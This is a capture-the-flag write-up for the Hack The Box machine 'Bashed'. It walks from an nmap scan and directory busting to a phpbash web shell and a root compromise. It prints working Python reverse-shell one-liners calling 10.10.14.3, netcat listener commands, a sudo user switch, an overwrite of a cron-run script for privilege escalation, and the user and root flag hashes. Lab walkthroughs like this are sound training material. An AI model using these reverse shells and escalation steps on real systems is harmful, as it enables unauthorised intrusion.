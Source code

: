![Image](/assets/Bashed.png)

Bashed is an easy machine on the HTB platform. Attackers must utilize their knowledge of web enumeration, scripting, and processes/permissions to achieve root access. There is quite a bit to be gained from diving into this machine, so lets start with our nmap scan.

### Reconnaissance

```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 08:45 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.42 seconds

```

Simple scan here, as the only port available to is port `80`. At the time, I'd no familiarity with other batch scan tools like `autorecon` and `nmapAutomator`. However, luckily this was the intended vector for the machine. It is always important to thoroughly enumerate these scans for everything. Write down each open port and what services are running on them.

### Enumeration

Seeing as the website is the only vector we have access to, we can be confident and aggressive in our approach.

 ![Image](/assets/Screenshot 2024-09-06 at 8.51.26 AM.png) 

The landing page offers us some information about `phpbash` as a tool, and we can do our due diligence to find out that it's essentially a web shell. Given the name of this box, I'd assume we were looking for a way to access a session hidden away in the directories of the server. We can use a directory-busting tool to enumerate further and we can also do so recursively should we need to pry further. I want to note, I used the `subdomain` wordlist here, but the `dirbuster 2.3 Medium` works as well.

![Image](/assets/Screenshot 2024-09-06 at 8.52.13 AM.png)

### Initial Access

It takes a while to know what to look for in terms of uncommon or vulnerable configurations in terms of web directories. There are some rabbit-holes indeed. Keep in mind, though, I've mentioned in another writeup that things like `/dev/` are always of interest, and that's exactly what we get here.

![Image](/assets/Screenshot 2024-09-07 at 8.27.20 AM.png)

We can see two files, but we're only interested in the second as it provides us with the aforementioned web shell.

![Image](/assets/Screenshot 2024-09-07 at 8.27.55 AM.png)

While it's great to get an initial foothold into the system, it's also important to acknowledge the limitations of an environment like this. We can query a bit with commands like `whoami` and `sysinfo`, but we'd like to get a stable shell with functionality as soon as we can. We can start our listener `rlwrap nc -nlvp 443` to have it catch our call-back shell. Which call-back you use is very preferential and takes trial and error, and in this case, a python script from
http://revshells.com did the trick.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![Image](/assets/Screenshot 2024-09-14 at 11.23.21 AM.png)

Now that we've caught our shell, we can do ourselves a great favor by looking to stabilize. We can check which python version is installed with `which python`. In this case, we've got `python` instead of `python3`:

`TARGET: python -c 'import pty; pty.spawn("/bin/bash")'`
`TARGET: BACKGROUND THE PROCESS WITH ^Z`
`HOST: stty raw -echo;fg`
`TARGET: export TERM="xterm"`

Now, we can `cd` our way around to find the flag, usually within a users `/Desktop` directory.

`USER: b400f51178e32772ec99c792dd8b3465`

### Privilege Escalation

In order to get a sense of what we've got access to and what we do not, `sudo -l` and `ps -aux` are critical.

![Image](/assets/Screenshot 2024-09-14 at 11.34.28 AM.png)

Here, we can see that we've got unrestricted access to commands as scriptmanager. We'll need to switch users in order to make that happen. `sudo` has a tag where you care able to switch users with `-u`, and we can specify which user and the environment we need to be spawned in `/bin/bash`

`sudo -u scriptmanager /bin/bash`

Once switched over, we can mosey around looking for ways to move vertically. Given the name of our user, `scripts` is an interesting directory that requires a look.

![Image](/assets/Screenshot 2024-09-14 at 11.43.24 AM.png)

We can see the test script `test.py`, and it looks like it's being called every few minutes or so. All it does is write "Testing 123" to a file called `test.txt`. We assume a cronjob is calling it, given the periodical nature of its function. We can overwrite the file with a call-back shell to another listener. `rlwrap nc -nlvp 4444`

Overwrite the function with the script:

```
echo -e "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")" > test.py
```

After a few minutes, we'll get a call-back on our listener

![Image](/assets/Screenshot 2024-09-14 at 12.07.58 PM.png)

 `ROOT:9aeb0d2bbee15d2405ee1a0cd24a9a5b`

#linux #easy #manual 
